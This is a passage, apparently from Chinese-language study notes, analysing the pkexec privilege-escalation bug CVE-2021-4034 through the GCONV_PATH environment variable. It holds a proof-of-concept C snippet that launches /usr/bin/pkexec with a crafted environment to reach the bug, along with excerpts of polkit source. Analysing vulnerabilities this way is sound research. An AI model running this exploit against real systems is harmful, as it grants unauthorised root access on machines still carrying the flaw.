 # 用什麼環境變數?
* 在 [seclists 上的文章](https://seclists.org/oss-sec/2022/q1/80)中，提到了 GLib (不是 glibc) 的 `g_printerr()` 呼叫，有機會有 CODESET 轉換，而這個過程中就會用到 `iconv_open()`，而這函數的設定檔位置是用 `GCONV_PATH` 環境變數來決定的，然後文章一句話帶過去:
> Unfortunately, CVE-2021-4034 allows us to re-introduce GCONV_PATH into pkexec's environment, and to execute our own shared library, as root.
> 
* 從文章來看，就是用這個 `GCONV_PATH` 了，那這個環境變數會不會被過濾掉呢？參考 [Character Set Handling](https://ftp.gnu.org/old-gnu/Manuals/glibc-2.2.3/html_chapter/libc_6.html):
> The GNU C library implementation of iconv_open has one significant extension to other implementations. To ease the extension of the set of available conversions the implementation allows storing the necessary files with data and code in arbitrarily many directories. How this extension has to be written will be explained below (see section The iconv Implementation in the GNU C library). Here it is only important to say that all directories mentioned in the GCONV_PATH environment variable are considered if they contain a file `gconv-modules`. These directories need not necessarily be created by the system administrator. In fact, this extension is introduced to help users writing and using their own, new conversions. **Of course this does not work for security reasons in SUID binaries;** in this case only the system directory is considered and this normally is `prefix/lib/gconv`. The GCONV_PATH environment variable is examined exactly once at the first call of the iconv_open function. Later modifications of the variable have no effect.
* 若 `GCONV_PATH` 設定的目錄底下含有 `gconv-modules`，就會使用這個設定檔，而這個設定檔看來是能夠設定要載什麼 CHARSET conversions 的實作 library
* 總之先驗證一下這件事情，驗證方式嘛...，既然會讀檔，那就有開檔的 syscall，不如就用 strace 來看看:
```c
int main()
{
    char* envp[] = {"yoyodiy",           // <Env value>
                    "PATH=GCONV_PATH=.", // PATH=<Env name>=.
                    "SHELL=/yoyo/sh",    // Trigger g_printerr
                    NULL};

    printf("[*] GoGo!\n");

    // execve
    syscall(0x3b, "/usr/bin/pkexec", NULL, envp);

    // Never return
    printf("You should not be here!\n");
}
```
* 首先解釋一下 poc 的 code
* 藉由設定 `envp[0] = yoyodiy`，以及 `PATH=GCONV_PATH=.`，漏洞執行後會設定 `envp[0] = GCONV_PATH=./yoyodiy`
* 漏洞要順利執行的話，那麼要讓它找得到路徑，也就是說我們要先準備 `GCONV_PATH=.` 目錄，在底下放 `yoyodiy` 檔案
* 接著照著文章說的，走到 `g_printerr()` 就會有 CODESET 轉換，進而才會吃設定檔
* 要走到 `g_printerr()`，可以看以下 [source code](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c#L657):
```c
/* now save the environment variables we care about */
saved_env = g_ptr_array_new ();
for (n = 0; environment_variables_to_save[n] != NULL; n++)
{
    const gchar *key = environment_variables_to_save[n];
    const gchar *value;

    value = g_getenv (key);
    if (value == NULL)
        continue;

    /* To qualify for the paranoia goldstar - we validate the value of each
     * environment variable passed through - this is to attempt to avoid
     * exploits in (potentially broken) programs launched via pkexec(1).
     */
    if (!validate_environment_variable (key, value))
        goto out;
```